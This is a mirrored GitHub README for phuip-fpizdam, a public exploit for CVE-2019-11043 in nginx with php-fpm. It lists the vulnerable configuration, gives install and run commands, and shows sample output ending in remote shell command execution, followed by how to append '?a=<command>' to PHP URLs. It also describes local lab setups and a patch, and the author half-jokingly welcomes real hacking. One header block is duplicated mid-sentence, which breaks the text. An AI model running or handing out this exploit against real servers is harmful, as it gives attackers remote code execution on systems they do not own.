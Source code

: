 # phuip-fpizdam

Exploit for CVE-2019-11043

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/neex](https://github.com/neex) |
| Url      | [https://github.com/neex/phuip-fpizdam](https://github.com/neex/phuip-fpizdam)                                               |
| Stars    | 1763                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# PHuiP-FPizdaM

## What's this

This is an exploit for a bug in php-fpm (CVE-2019-11043). In certain nginx + php-fpm configurations, the bug is possible to trigger from the outside. This means that a web user may get code execution if you have vulnerable config (see [below](#the-full-list-of-preconditions)).

## Writeup

While we were too lazy to do a writeup, Orange Tsai published [a perfect analysis](https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html) in his blog. Kudos to him.

Also, my slides from ZeroNights 2019 [are available](ZeroNights2019.pdf).

## What's vulnerable

If a webserver runs nginx + php-fpm and nginx have a configuration like

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

which also lacks any script existence checks (like `try_files`), then you can probably hack it with this sploit.

#### The full list of preconditions
1. Nginx + php-fpm, `location ~ [^/]\.php(/|$)` must be forwarded to php-fpm (maybe the regexp can be stricter, see [#1](https://github.com/neex/phuip-fpizdam/issues/1)).
2. There must be a `PATH_INFO` variable assignment via statement `fastcgi_param PATH_INFO $fastcgi_path_info;`. Also `SCRIPT_FILENAME` must be set using `fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;` (there might be a constant path instead of `$document_root`). At first, we thought these are always present in the `fastcgi_params` file, but it's not true.
3. There must be a way to set `PATH_INFO` to an empty value. This exploit assumes that `fastcgi_split_path_info` directive is there and contains a regexp starting with `^` and ending with `# phuip-fpizdam

Exploit for CVE-2019-11043

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/neex](https://github.com/neex) |
| Url      | [https://github.com/neex/phuip-fpizdam](https://github.com/neex/phuip-fpizdam)                                               |
| Stars    | 1763                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

, so it tries to break the regexp with a newline character.
4. This particular exploit assumes that `PATH_INFO` is set after `REQUEST_URI` in the config.
5. No file existence checks like `try_files $uri =404` or `if (-f $uri)`. If Nginx drops requests to non-existing scripts before FastCGI forwarding, our requests never reach php-fpm. Adding this is also the easiest way to patch.
6. This exploit works only for PHP 7+, but the bug itself is present in earlier versions (see [below](#about-php5)).

## Isn't this known to be vulnerable for years?

A long time ago php-fpm didn't restrict the extensions of the scripts, meaning that something like `/avatar.png/some-fake-shit.php` could execute `avatar.png` as a PHP script. This issue was fixed around 2010.

The current one doesn't require file upload, works in the most recent versions (until the fix has landed), and, most importantly, the exploit is much cooler.

## How to run

Install it using
```
go get github.com/neex/phuip-fpizdam
```

If you get strange compilation errors, make sure you're using go >= 1.13. Run the program using `phuip-fpizdam [url]` (assuming you have the `$GOPATH/bin` inside your `$PATH`, otherwise specify the full path to the binary). Good output looks like this:

```
2019/10/01 02:46:15 Base status code is 200
2019/10/01 02:46:15 Status code 500 for qsl=1745, adding as a candidate
2019/10/01 02:46:15 The target is probably vulnerable. Possible QSLs: [1735 1740 1745]
2019/10/01 02:46:16 Attack params found: --qsl 1735 --pisos 126 --skip-detect
2019/10/01 02:46:16 Trying to set "session.auto_start=0"...
2019/10/01 02:46:16 Detect() returned attack params: --qsl 1735 --pisos 126 --skip-detect <-- REMEMBER THIS
2019/10/01 02:46:16 Performing attack using php.ini settings...
2019/10/01 02:46:40 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/01 02:46:40 Trying to cleanup /tmp/a...
2019/10/01 02:46:40 Done!
```

After this, you can start appending `?a=<your command>` to all PHP scripts (you may need multiple retries).

Alternatively, you can use a [docker image](https://github.com/ypereirareis/docker-CVE-2019-11043) to run the exploit:

```bash
docker run --rm ypereirareis/cve-2019-11043 [url]
```

## Playground environments

### Using Docker

If you want to reproduce the issue or play with the exploit locally through Docker, do the following:

1. Clone this repo and go to the `reproducer` directory.
2. Create the docker image using `docker build -t reproduce-cve-2019-11043 .`. It takes a long time as it internally clones the php repository and builds it from the source. However, it will be easier this way if you want to debug the exploit. The revision built is the one right before the fix.
2. Run the docker using `docker run --rm -ti -p 8080:80 reproduce-cve-2019-11043`.
3. Now you have http://127.0.0.1:8080/script.php, which is an empty file.
4. Run the exploit using `phuip-fpizdam http://127.0.0.1:8080/script.php`
5. If everything is ok, you'll be able to execute commands by appending `?a=` to the script: http://127.0.0.1:8080/script.php?a=id. Try multiple times as only some of php-fpm workers are infected.

### Using LXD system containers

If you want to reproduce the issue or play with the exploit locally through LXD, do the following:

1. Create two system containers, `vulnerable` and `attacker`. You can use the `ubuntu:18.04` container image for both containers.
2. In the `vulnerable` container, install `nginx` and `php-fpm`. Configure the server block as [this configuration](https://gist.github.com/simos/9a87bedfcd720ccda0cff54fd06ddd0f). Create an empty file `/var/www/html/index.php`.
3. In the `attacker` container, install the Go language (`sudo snap install go --classic`), clone this repository, and run `go build` in the directory of the repository.
4. Run the attack as follows: `./phuip-fpizdam http://vulnerable.lxd/index.php`. Try multiple types in order to infect all php-fpm workers. 

For more details instructions, see [Testing CVE-2019-11043 (php-fpm security vulnerability) with LXD system containers](https://blog.simos.info/testing-cve-2019-11043-php-fpm-security-vulnerability-with-lxd-system-containers/).

## About PHP5

The buffer underflow in php-fpm is present in PHP version 5. However, this exploit makes use of an optimization used for storing FastCGI variables, [_fcgi_data_seg](https://github.com/php/php-src/blob/5d6e923/main/fastcgi.c#L186). This optimization is present only in php 7, so this particular exploit works only for php 7. There might be another exploitation technique that works in php 5.

## Credits

Original anomaly discovered by [d90pwn](https://twitter.com/d90pwn) during Real World CTF. Root clause found by me (Emil Lerner) as well as the way to set php.ini options. Final php.ini options set is found by [beched](https://twitter.com/ahack_ru).

## License

This exploit is distributed under terms of [MIT License](LICENSE.txt).

Refrain from doing any damage with this exploit. But if you really hack something with this thing, I will be happy.



## Get the content

```
git clone https://github.com/neex/phuip-fpizdam
cd phuip-fpizdam
```

{% embed url="https://github.com/neex/phuip-fpizdam" %}

<figure><img src="https://avatars.githubusercontent.com/u/684237?v=4" alt=""><figcaption><p>neex</p></figcaption></figure>
